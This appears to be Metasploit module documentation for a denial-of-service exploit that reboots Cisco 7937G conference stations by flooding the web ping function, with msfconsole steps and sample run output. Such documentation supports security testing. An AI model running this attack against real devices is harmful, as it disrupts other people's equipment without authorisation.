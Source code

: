 ## Vulnerable Application

  [Cisco 7937G](https://www.cisco.com/c/en/us/support/collaboration-endpoints/unified-ip-conference-station-7937g/model.html) Conference Station.
  This module has been tested successfully against firmware versions SCCP-1-4-5-5 and SCCP-1-4-5-7.

### Description

  This module exploits a bug in how the conference station handles executing a ping via its web interface.
  By repeatedly executing the ping function without clearing out the resulting output,
  a DoS is caused that will reset the device after a few minutes.

## Verification Steps

  1. Obtain a Cisco 7937G Conference Station.
  2. Enable Web Access on the device (default configuration).
  3. Start msfconsole
  4. Do: `use auxiliary/dos/cisco/cisco_7937g_dos_reboot`
  5. Do: `set rhost 192.168.1.10`
  6. Do: `run`
  7. The conference station should become nonresponsive and then power cycle itself.

## Options

  No options

## Scenarios

### Cisco 7937G Running Firmware Version SCCP-1-4-5-7

```
msf5 > use auxiliary/dos/cisco/cisco_7937g_dos_reboot
msf5 auxiliary(dos/cisco/cisco_7937g_dos_reboot) > set rhost 192.168.110.209
rhost => 192.168.110.209
msf5 auxiliary(dos/cisco/cisco_7937g_dos_reboot) > run

[*] Starting server...
[*] 192.168.110.209 - Sending DoS Packets. Stand by.
[*] 192.168.110.209 - DoS reset attack completed!
[*] Auxiliary module execution completed
```

### Cisco 7937G Running Firmware Version SCCP-1-4-5-5

```
msf5 > use auxiliary/dos/cisco/cisco_7937g_dos_reboot
msf5 auxiliary(dos/cisco/cisco_7937g_dos_reboot) > set rhost 192.168.110.209
rhost => 192.168.110.209
msf5 auxiliary(dos/cisco/cisco_7937g_dos_reboot) > run

[*] Starting server...
[*] 192.168.110.209 - Sending DoS Packets. Stand by.
[*] 192.168.110.209 - DoS reset attack completed!
[*] Auxiliary module execution completed
```
